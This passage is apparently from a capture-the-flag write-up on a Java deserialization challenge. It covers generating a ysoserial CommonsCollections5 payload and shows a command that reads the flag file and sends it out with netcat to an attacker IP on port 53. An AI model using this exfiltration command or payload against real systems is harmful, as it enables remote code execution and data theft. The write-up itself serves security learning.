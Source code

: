 The malicious payload can be generated using [ysoserial](https://github.com/frohoff/ysoserial) with payload type `CommonsCollections5` as suggested in the article mentioned above.

The command payload to get flag is something like this:
```
bash -c {cat,/????????????????}|{nc,IP,53}
```

This is because in file `entrypoint.sh` they expose port 53
![image](img/niceray1.png)

So that we can handle request from this. You can build local or using docker to generate payload from ysoserial.

### Simple
